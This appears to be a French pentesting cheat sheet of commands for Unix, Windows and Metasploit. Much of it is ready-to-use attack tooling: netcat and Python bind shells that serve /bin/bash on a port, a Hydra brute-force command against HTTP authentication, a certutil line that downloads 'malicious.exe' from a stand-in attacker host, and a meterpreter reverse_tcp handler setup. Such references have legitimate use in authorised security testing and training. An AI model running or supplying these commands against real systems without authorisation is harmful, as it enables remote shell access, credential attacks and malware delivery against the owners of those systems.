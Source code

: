 <h2>Unix</h2>
Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port
<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

Hydra:</br>
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```
<h2>Windows</h2>
systeminfo pour obtenir des renseignements sur le systeme</br>
net users [username] pour obtenir des renseignements sur les utilisateurs</br>
tasklist pour lister les processus</br>
netstat -ano pour les connexions reseau</br>
dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
wmic qfe list pour lister les mises à jour installées</br>
certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe le wget en cmd<br/>
certutil.exe -decode bad.txt bad.exe le base64 decode en cmd</br>

<h3>Powershell</h3>
get-WmiObject -class Win32_Share</br>


<h2>Metasploit</h2>
Handler :

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.8.142
set LPORT 8888
set ExitOnSession false
exploit -j -z
```

use post/multi/recon/local_exploit_suggester</br>

run post/windows/manage/migrate pour changer sur un processus plus fiable</br>
